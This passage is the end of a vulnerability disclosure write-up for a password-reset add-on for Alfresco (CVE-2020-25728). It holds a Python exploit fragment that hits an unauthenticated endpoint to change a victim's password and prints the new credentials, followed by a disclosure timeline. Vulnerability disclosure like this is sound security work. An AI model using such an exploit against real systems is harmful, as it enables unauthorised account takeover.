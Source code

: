 ```python
    r = requests.post(host + '/share/proxy/alfresco-noauth/com/flex-solution/applyChangedPassword', json=payload, headers=header, verify=False)
    if (int(r.status_code) == 200):
        print "Password Changed !"
        print "User Name : {}".format(victimUser)
        print "Task ID : {}".format(retreivedTaskId + i)
        print "Password : {}".format(newPassword)
        break
```

### PWN

<img src="/img/Alfresco-Reset-Password-add-on-0-day-Vulnerabilities/pwn.png" alt="PWN" class="img-fluid img-thumbnail" width="500" height="600"/>

### Timeline

- 01/09/2020: Vulnerability Discovery
- 04/09/2020: Vulnerabilities Report 
- 16/09/2020: Vulnerability Patch and the Vendor release a new version 1.2.0
- 17/09/2020: CVE assigned [CVE-2020-25728](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-25728)


</br>